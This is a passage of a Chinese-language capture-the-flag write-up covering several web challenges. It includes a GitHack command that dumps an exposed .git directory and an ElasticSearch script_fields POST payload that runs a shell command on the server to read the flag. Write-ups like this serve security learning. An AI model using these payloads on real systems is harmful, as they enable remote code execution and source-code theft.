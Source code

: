 剩下的就好办了，找到一个利用工具 https://github.com/lijiejie/GitHack ，执行命令

```shell
python3 GitHack.py http://10.167.93.41/.git/
```

会将远程的.git下载下来然后还原出flag文件。

### web-8 ElasticSearch

es的远程执行，构造一个POST请求，获取到flag

```text
POST https://ctf-es.dun.mi.com/_search?pretty

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"cat /flag\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

### web-9 才开始学nginx

html源码提示了flag的位置

![html注释提示了](./web-9-1.png)
